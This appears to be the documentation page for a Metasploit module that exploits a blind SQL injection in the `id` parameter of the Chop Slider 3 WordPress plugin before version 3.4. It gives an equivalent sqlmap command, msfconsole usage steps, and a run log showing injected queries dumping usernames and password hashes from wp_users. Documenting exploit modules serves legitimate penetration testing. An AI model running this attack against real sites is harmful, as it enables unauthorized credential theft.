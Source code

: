 ## Vulnerable Application

The iDangero.us Chop Slider 3 WordPress plugin prior to version 3.4
contains a blind SQL injection in the `id` parameter of the
`get_sript/index.php` page.  The injection is passed through `GET`
parameters, and thus must be encoded, and magic_quotes is applied at the server.

The plugin can be downloaded from
[github](https://github.com/idangerous/Plugins/blob/master/Chop%20Slider%203/Chop%20Slider%203%20Wordpress/Wordpress_ChopSlider_3_4.zip)

This module slightly replicates sqlmap running as:

```
sqlmap -u 'http://local.target/wp-content/plugins/chopslider/get_script/index.php?id=1111111111' --level=5 --risk=3 --technique=B
```

## Verification Steps

1. Install the plugin and activate it
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_chopslider_id_sqli`
1. Do: `set rhosts [ip]`
1. Do: `run`
1. You should get a dump of usernames and password hashes.

## Options

### Count

How many rows in the database you'd like to retrieve. Greater takes more time, `1` will typically yield the admin account.
Defaults to `1`

## Scenarios

### iDangero.us Chop Slider 3.4 on Wordpress 5.4.4 running on Ubuntu 20.04.

```
resource (chopslider.rb)> use auxiliary/scanner/http/wp_chopslider_id_sqli
resource (chopslider.rb)> set rhosts 111.111.1.111
rhosts => 111.111.1.111
resource (chopslider.rb)> set verbose true
verbose => true
resource (chopslider.rb)> set count 3
count => 3
resource (chopslider.rb)> run
[*] Checking /wp-content/plugins/chopslider/readme.txt
[*] Checking /wp-content/plugins/chopslider/Readme.txt
[*] Checking /wp-content/plugins/chopslider/README.txt
[+] Vulnerable version detected
[*] Enumerating Usernames
[*] {SQLi} Executing (select group_concat(qlJEzvIJY) from (select cast(ifnull(user_login,'') as binary) qlJEzvIJY from wp_users limit 3) DSKc)
[*] {SQLi} Time-based injection: expecting output of length 19
[*] Enumerating Password Hashes
[*] {SQLi} Executing (select group_concat(NtxL) from (select cast(ifnull(user_pass,'') as binary) NtxL from wp_users limit 3) YztNPLK)
[*] {SQLi} Time-based injection: expecting output of length 104
[+] wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/
 editor      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/wp_chopslider_id_sqli) > creds
Credentials
===========

host  origin         service  public  private                             realm  private_type        JtR Format
----  ------         -------  ------  -------                             -----  ------------        ----------
      111.111.1.111           editor  $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1         Nonreplayable hash  phpass
      111.111.1.111           admin2  $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/         Nonreplayable hash  phpass
      111.111.1.111           admin   $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0         Nonreplayable hash  phpass
```
